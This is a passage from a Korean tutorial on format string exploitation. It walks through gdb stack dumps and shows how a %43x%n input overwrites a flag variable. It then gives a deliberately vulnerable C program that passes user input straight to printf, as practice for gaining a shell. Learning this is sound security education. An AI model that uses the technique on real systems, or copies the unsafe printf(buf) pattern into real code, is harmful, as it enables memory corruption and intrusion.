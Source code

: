 ```
gdb-peda$ x/16x $esp
0xffffd5bc:	0xffffd5c2	0x414133dc	0xffffd5d6	0x78333425
0xffffd5cc:	0x000a6e25	0xf7fb3000	0x00303000	0x00000000
0xffffd5dc:	0xf7e19637	0x00000001	0xffffd674	0xffffd67c
0xffffd5ec:	0x00000000	0x00000000	0x00000000	0xf7fb3000
```

ESP에는 문자열의 주소가 저장되어 있다. ESP+6의 위치부터 버퍼가 시작되는 것을 확인할 수 있다.
이 때, ESP+8의 위치에는 변조해야 하는 `flag`의 주소 값이 저장되었다. 

디버거에서 확인 시, `flag` 주소 값의 0x20 만큼 차이가 나는 것을 확인할 수 있다.

자 이제 `printf` 함수의 입장에서 본다.
ESP+6부터 한 글자씩 읽어온다. `0x41 0x41 0xd6 0xd5 0xff 0x ff 0xff ..` 그러다 ESP+C의 위치에 `0x25("%")` 를 만나게 되고 다음 문자를 읽어 어떤 동작을 할지 결정한다.

그러나 `0x34, 0x33`으로 해당하는 문자가 없으므로 그 다음 문자인 `0x78("x")` 를 읽고, 이에 맞는 동작을 수행한다.
ESP+4 의 값을 포맷스트링에 대응하는 주소로 생각하고 43바이트의 Hex 형태로 출력을 해준다. 그리고 다시 문자를 읽는데 다시 "%"를 만나게 된다. 바로 다음 문자는 `0x6e("n")` 으로 위에서 출력한 길이를 계산한다. 

```
AA = 2 bytes
dummy(%43x) = 43 bytes
414133dc(%x) = 4 bytes

AA+dummy+414133dc = 49 bytes
```

위와 같은 길이가 계산된다. 두 번째 포맷 스트링이기 때문에 ESP+8 위치의 값 안에 이 값이 저장되게 된다.
현재 ESP+8 의 위치에는 `flag` 변수의 주소 값이 담겨있다. 

그렇기 때문에 `49(0x31)` 으로 변조되어 내가 원하는 흐름으로 제어가 가능한 것이다.

## [+] Training 2

자 그러면 이번에는 포맷 스트링을 이용하여 쉘을 획득하는 방법에 대해 연습해본다.

먼저 RET를 공략해보자.

입력 값이 길어지기 때문에 예제 소스코드를 다음처럼 변경하였다.

```c++
#include <stdio.h>
#include <string.h>
 
int main() {
    char flag[] = "0";
    char buf[1024];
    fgets(buf, sizeof(buf), stdin);                          
    printf(buf);
    printf("%p\n",&flag);
    if(!strcmp(flag,"1")) {
        printf("Complete\n");
    }
}
```
